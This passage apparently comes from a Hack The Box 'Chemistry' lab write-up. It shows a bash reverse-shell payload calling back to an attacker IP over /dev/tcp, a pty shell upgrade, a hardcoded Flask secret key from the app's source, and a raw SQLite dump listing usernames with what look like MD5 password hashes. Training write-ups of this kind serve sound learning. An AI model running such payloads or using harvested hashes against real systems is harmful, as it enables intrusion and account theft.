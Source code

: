 the payload here is: `/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.95/9002 0>&1\'`
which will create a reverse shell to our machine. 
> I had to include the escaping characters '\' for the single quotes in my payload otherwise it wouldn't work

![Pasted image 20250103152721.png](/images/hackthebox/machines/chemistry/pasted-image-20250103152721.png)

BOOM reverse shell landed as `app`!

## Local Privilege Escalation Pt.1
First I'll upgrade the shell using `python pty` and then I will look around for privesc possibilities
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Pasted image 20250103152844.png](/images/hackthebox/machines/chemistry/pasted-image-20250103152844.png)

way better :D

looking into the `app.py` file this is indeed an application build in Flask.
there is some interesting info in here
```
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}
```
I'll save the SECRET_KEY in a file and take a look at that database
```bash
cat database.db
�f�K�ytableuseruserCREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
)';indexsqlite_autoindex_user_1user�3�5tablestructurestructureCREATE TABLE structure (
        id INTEGER NOT NULL,
        user_id INTEGER NOT NULL,
        filename VARCHAR(150) NOT NULL,
        identifier VARCHAR(100) NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id),
        UNIQUE (identifier)
^^^�ndexsqlite_autoindex_structure_1structure
Maxel9347f9724ca083b17e39555c36fd9007*      kristel6896ba7b11a62cacffbdaded457c6d92(
eusebio6cad48078d0241cca9a7b322ecd073b3)abian4e5Mtaniaa4aa55e816205dc0389591c9f82f43bbMvictoriac3601ad2286a4293868ec2a4bc606ba3)Mpeter6845c17d298d95aa942127bdad2ceb9b*Mcarlos9ad48828b0955513f7cf0f7f6510c8f8*Mjobert3dec299e06f7ed187bac06bd3b670ab2*Mrobert02fcf7cfc10adc37959fb21f06c6b467(Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'Mapp197865e46b878d9e74a0346b6d59886a)Madmin2861debaf8d99436a10ed6f75a252abf
b��x�����l�b����__�	rival
                             risteaxel
fabian

      elacia

            usebio
	tania	
                victoriapeter
carlos
jobert
roberrosaapp
```

